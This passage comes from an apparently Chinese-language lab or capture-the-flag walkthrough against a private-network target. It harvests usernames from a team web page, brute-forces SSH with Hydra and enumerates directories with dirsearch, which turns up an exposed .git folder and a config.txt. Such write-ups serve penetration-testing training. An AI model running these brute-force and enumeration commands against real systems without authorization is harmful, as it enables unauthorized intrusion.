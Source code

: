 ```bash
                    <div class="member-role">逆向工程专家</div>
                </div>
                <div class="team-member">
                    <div class="member-name">Todd</div>
                    <div class="member-role">安全开发工程师</div>
                </div>
                <div class="team-member">
                    <div class="member-name">Sublarge</div>
                    <div class="member-role">威胁情报分析师</div>
                </div>
            </div>
        </div>
    </div>
</body>
</html>
```

从页面中收集到几个潜在用户名：HYH、Ta0、Todd、Sublarge。同时启动Hydra对SSH进行暴力破解。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -L user -P 5000q.txt ssh://192.168.205.168 -f -I -u -e nsr -t 64 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak...
[DATA] attacking ssh://192.168.205.168:22/
```

# 三、目录爆破

对Web服务进行目录扫描，寻找隐藏的路径。

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -q -u http://192.168.205.168                                        
...
[15:20:35] 301 -  320B  - http://192.168.205.168/backups  ->  http://192.168.205.168/backups/
[15:20:35] 200 -  407B  - http://192.168.205.168/backups/
[15:20:36] 301 -  316B  - http://192.168.205.168/dev  ->  http://192.168.205.168/dev/
[15:20:37] 301 -  317B  - http://192.168.205.168/logs  ->  http://192.168.205.168/logs/
[15:20:37] 200 -  404B  - http://192.168.205.168/logs/
[15:20:39] 301 -  319B  - http://192.168.205.168/public  ->  http://192.168.205.168/public/
[15:20:39] 200 -  406B  - http://192.168.205.168/public/
...
```

发现了几个目录：backups、logs、public、dev。其中backups、logs、public都是空的，继续对/dev目录进行深入扫描。

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -q -u http://192.168.205.168/dev
...
[15:21:58] 301 -  321B  - http://192.168.205.168/dev/.git  ->  http://192.168.205.168/dev/.git/
[15:21:58] 200 -  669B  - http://192.168.205.168/dev/.git/
[15:21:58] 200 -   23B  - http://192.168.205.168/dev/.git/HEAD
[15:21:58] 200 -  260B  - http://192.168.205.168/dev/.git/config
...
[15:22:02] 200 -  529B  - http://192.168.205.168/dev/config.txt
```
